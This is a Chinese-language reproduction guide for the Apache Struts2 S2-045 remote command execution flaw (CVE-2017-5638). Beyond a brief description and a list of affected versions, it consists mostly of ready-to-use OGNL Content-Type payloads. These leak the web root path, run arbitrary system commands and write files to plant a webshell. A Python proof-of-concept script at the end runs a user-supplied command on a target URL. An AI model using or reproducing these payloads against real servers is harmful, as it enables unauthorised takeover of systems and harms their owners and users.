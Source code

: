 （CVE-2017-5638）S2-045
=======================

一、漏洞简介
------------

Struts使用的Jakarta解析文件上传请求包不当，当远程攻击者构造恶意的Content-Type，可能导致远程命令执行。

实际上在default.properties文件中，struts.multipart.parser的值有两个选择，分别是jakarta和pell（另外原本其实也有第三种选择cos）。其中的jakarta解析器是Struts
2框架的标准组成部分。默认情况下jakarta是启用的，所以该漏洞的严重性需要得到正视。

二、漏洞影响
------------

Struts 2.3.5 -- Struts 2.3.31

Struts 2.5 -- Struts 2.5.10

三、复现过程
------------

### 获取web相关信息exp

自己构造版本 优化前（并不适用2.5.10，但执行一次优化版本后就适用了）：

    %{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#wmres=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#wmres.getWriter().print("S2-045 dir--***")).(#wmreq=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest')).(#wmres.getWriter().println(#wmreq.getSession().getServletContext().getRealPath("/"))).(#wmres.getWriter().flush()).(#wmres.getWriter().close())}.multipart/form-data

自己构造版本 优化后（遇到个xxxx 貌似不适用。我擦）：

    %{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#_memberAccess))).(#wmres=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#wmres.getWriter().print("S2-045 dir--***")).(#wmreq=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest')).(#wmres.getWriter().println(#wmreq.getSession().getServletContext().getRealPath("/"))).(#wmres.getWriter().flush()).(#wmres.getWriter().close())}.multipart/form-data

网上别人的版本

    %{(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#path=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest').getSession().getServletContext().getRealPath('/')).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(#ros.write(#path.getBytes())).(#ros.flush())}.multipart/form-data

### 执行命令

网上公开修改版本：

    %{(#wm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#wm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#wm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data

### 上传文件getshell

自己构造版本（并不适用2.5.10）：

    %{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#res=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#res.getWriter().print("OK")).(#req=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest')).(#res.getWriter().flush()).(#res.getWriter().close()).(new java.io.BufferedWriter(new java.io.FileWriter("/1111/")).append(new java.net.URLDecoder().decode("shell",'UTF-8')).close())}.multipart/form-data

实用度高的版本无限制长度getshell版本（并不适用2.5.10）

    %{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#req=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest')).(#bf=new java.io.BufferedWriter(new java.io.FileWriter("C:\\1.txt"))).(@org.apache.commons.io.IOUtils@copy(#req.getInputStream(),#bf)).(#bf.flush()).(#bf.close()).(#res=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#res.getWriter().print("OK")).(#res.getWriter().flush()).(#res.getWriter().close())}.multipart/form-data

### 注意：无限制长度版本是因为Content-Type长度有限，它将post数据包里面所有的数据都写进指定路径文件里面。

### poc

    #! /usr/bin/env python
    # encoding:utf-8
    import urllib2
    import sys
    from poster.encode import multipart_encode
    from poster.streaminghttp import register_openers
    def poc():
        if len(sys.argv) < 3:
            print '''Usage: poc.py http://www.0-sec.org/example/HelloWorld.action "command"'''
            sys.exit()
        register_openers()
        datagen, header = multipart_encode({"image": open("tmp.txt", "w+")})
        header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
        header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+str(sys.argv[2])+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
        request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
        response = urllib2.urlopen(request)
        print response.read()
    poc()

